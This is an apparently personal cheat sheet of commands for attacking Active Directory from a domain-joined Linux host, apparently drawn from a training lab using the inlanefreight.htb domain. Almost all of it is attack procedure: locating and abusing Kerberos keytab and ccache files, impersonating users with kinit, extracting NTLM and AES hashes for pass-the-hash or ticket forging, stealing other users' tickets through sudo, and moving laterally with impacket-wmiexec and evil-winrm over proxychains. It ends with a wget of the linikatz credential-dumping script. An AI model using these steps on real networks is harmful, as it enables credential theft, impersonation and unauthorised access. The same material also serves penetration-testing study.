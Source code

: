  # Atk AD from linux tips

## realm - check if linux machine is domain-joined
```
realm list

# Kerberos member ?
# Domain name ?
```

## PS - Check if Linux Machine is Domain Joined
```
ps -ef | grep -i "winbind\|sssd"
```

## Find to Search for Files with Keytab in the Name
```
find / -name *keytab* -ls 2>/dev/null
```

## Identifying Keytab Files in Cronjobs
```
crontab -l
# if kinit, kerberos is used 
# kinit allows interaction with Kerberos, and its function is to request the user's TGT and store this ticket in the cache</mark> (ccache file).
# use `kinit` to import a `keytab` into our session and act as the user
```

## Find ccache files
```
# Find ccache files
env | grep -i krb5

ls -la /tmp #kbrb5cc_???
```

## Abuse keytab files
```
# Abuse keytab files > Impersonate user using kinit

## List keytab file info
klist -k -t

## impersonate a user with a keytab
kinit <USER>@<DOMAIN> -k -t /.../<USER>.keytab
klist # confirm import

## connect to share
smbclient //dc01/<USER> -k -c ls

# Extract secrets from keytab
python3 /opt/keytabextract.py /../<USER>.keytab
## Use NTLM hash for PtH, AES256 hash to forge tickets in rubeuse/crack to get plaintext passwd
```

## Abuse keytab ccache
```
# Need read priv on the ccache file
sudo -l
sudo su

# look for ccache files, note the file owner of krb5cc_*
ls -la /tmp

# Check Group membership of file owner
id <USER(>@<Domain>)

# Import ccache file in current session
cp /tmp/krb5cc_647401106_I8I133 .
export KRB5CCNAME=<FILE TO PATH> # Check date validity of ccache file
klist
```

## Abuse keyberos from a linux host using a pivot machine
```
# Set env var
export KRB5CCNAME=<FILE TO PATH>

# Use the kerberos ticket
# -no-pass for no password prompt
# DC01 = KDC
proxychains impacket-wmiexec dc01 -k
```

## evil-winrm - use kerberos auth
```
# install krb5-user package
# need to install the Kerberos package used for network authentication

# update conf for domain
$ cat /etc/krb5.conf
[libdefaults]
        default_realm = <DOMAIN>

<SNIP>

[realms]
    INLANEFREIGHT.HTB = {
        kdc = dc01.>DOMAIN>
    }

<SNIP>

# Connect using a pivot
proxychains evil-winrm -i dc01 -r inlanefreight.htb
```

## impacket ticket convertor - ccache <> kirbi
```
# ccache2kirbi
impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi
```

## linikatz - exploit creds on linux if integration with AD
```
wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
```
